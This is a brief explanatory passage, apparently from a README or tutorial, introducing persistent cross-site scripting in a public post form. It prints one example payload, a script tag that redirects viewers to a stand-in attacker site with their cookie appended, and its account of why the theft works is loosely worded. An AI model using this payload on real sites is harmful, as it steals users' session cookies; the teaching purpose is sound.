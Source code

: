 The first example of an attack is the Persistent Cross Site Scripting attack (XSS). This is allows the attacker to insert a JS   <Script> tag into a form. When the browser renders the html in the public post, the browser will automatically execute the JS. 

For example, if you were to type
   <script> window.location= 'http://www.someattacksite.com/?cookie='+document.cookie </script>

The browser will render the message, send the user to the attack page, and will steal their cookie for that site. Normally, one cannot steal a users cookie, but since the original site has been the one to redirect, the browser considers it to be an original part of the site.
